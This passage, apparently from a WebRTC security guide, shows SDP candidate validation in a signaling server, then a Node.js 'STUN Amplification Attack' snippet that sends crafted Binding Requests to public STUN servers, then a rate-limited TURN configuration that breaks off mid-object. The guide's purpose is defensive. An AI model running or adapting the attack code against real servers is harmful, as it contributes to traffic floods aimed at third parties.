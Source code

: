     for (const line of lines) {
        if (line.startsWith('a=candidate:')) {
            const parts = line.split(' ');
            const ip = parts[4];
            if (bannedIPs.includes(ip) || isPrivateIP(ip)) {
                throw new Error('Invalid IP in SDP candidate');
            }
        }
        
        if (line.startsWith('a=ice-ufrag:') || line.startsWith('a=ice-pwd:')) {
            if (line.length > 256) {
                throw new Error('ICE credentials too long');
            }
        }
    }
    
    return true;
}

// Signaling server with SDP validation
io.on('connection', (socket) => {
    socket.on('offer', (data) => {
        try {
            validateSDP(data.sdp);
            socket.to(data.target).emit('offer', data);
        } catch (error) {
            socket.emit('error', 'Invalid SDP: ' + error.message);
        }
    });
});
```

### WebRTC STUN Amplification Attack
Attack Implementation:
```
// Amplification attack using STUN servers
const dgram = require('dgram');

const stunRequest = Buffer.from([
    0x00, 0x01, // Message Type: Binding Request
    0x00, 0x00, // Message Length
    0x21, 0x12, 0xA4, 0x42, // Magic Cookie
    0x00, 0x01, 0x02, 0x03, 0x04, 0x05, 0x06, 0x07, 0x08, 0x09, 0x0a, 0x0b
]);

const client = dgram.createSocket('udp4');
const stunServers = ['stun.l.google.com:19302', 'stun1.l.google.com:19302'];

stunServers.forEach(server => {
    const [host, port] = server.split(':');
    client.send(stunRequest, port, host);
});
```
Defense Implementation:
```
// TURN server configuration with rate limiting
const turnConfig = {
    authMech: 'long-term',
    credentials: {
        username: process.env.TURN_USERNAME,
        password: process.env.TURN_PASSWORD
    },
    maxAllocations: 10,
    maxLifetime: 600, // 10 minutes
    allowedIPs: process.env.ALLOWED_CLIENT_IPS?.split(',') || [],
    deniedIPs: ['127.0.0.1', '0.0.0.0'],
    maxBandwidth: 1048576 // 1MB/s per allocation